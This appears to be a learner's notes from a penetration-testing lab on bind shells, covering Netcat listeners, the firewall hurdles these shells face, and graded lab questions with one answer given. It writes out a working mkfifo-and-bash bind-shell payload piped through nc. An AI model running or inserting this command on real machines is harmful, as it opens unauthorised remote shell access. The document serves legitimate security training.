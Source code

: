 # Bind Shells

In many case we will establish on a local or remote network so this can be done using a bind or reverse shell.

## What is it?

with a bind shell, the target system has a listner started and waits a conection from a pentester system.

<img width="2101" height="1220" alt="image" src="https://github.com/user-attachments/assets/ac25b76e-c8b6-42b8-85b4-cb62250d406a" />

in this we could connect directly with the IP address and Port listening on the target.

there's are challeges also----

- There would have to be a listener already started on the target.
- If there is no listener started, we would need to find a way to make this happen.
- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

OS firewalls can be troublesome when establishing a shell since we need to consider IP addresses, ports, and the tool in use to get our connection working successfully. In the example above, the application used to start the listener is called GNU Netcat. Netcat (nc) is considered our Swiss-Army Knife since it can function over TCP, UDP, and Unix sockets. It's capable of using IPv4 & IPv6, opening and listening on sockets, operating as a proxy, and even dealing with text input and output. We would use nc on the attack box as our client, and the target would be the server.

## Practicing GNU Netcat

**1. Server - Target Starting Netcat Listner**

```
attacker box:  nc -lvnp 7777
```

in this, target will be our server and the attacker box will be our client once we hit enter the listner is started and waiting a connection from the client.

**2. Client - Attack box connecting to target**

```
Client -  nc -nv IP 7777
```

## Establishing a Basic Bind Shell with Netcat

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the directory, shell, listener, work with some pipelines, and input & output redirection to ensure a shell to the system gets served when the client attempts to connect.

**1. Server - Binding a Bash shell to the TCP session**

```
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

the above command is consider the payload and this was dilivered manually.

**2. Client - Connecting to bind shell on target

```
NiteshKS22@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

We will notice that we have successfully established a bind shell session with the target. Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical. We worked through these exercises to understand the basics of the bind shell and how it works without any security controls (NAT enabled routers, hardware firewalls, Web Application Firewalls, IDS, IPS, OS firewalls, endpoint protection, authentication mechanisms, etc...) in place or exploits needed. This fundamental understanding will be helpful as we get into more challenging situations and realistic scenarios working with vulnerable systems.


##
## QUESTIONS

 Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

 Ans - 443 (read the question carefully)


  SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

 <img width="1116" height="191" alt="image" src="https://github.com/user-attachments/assets/e4d94196-283d-400d-95a2-08bdd35b75ee" />
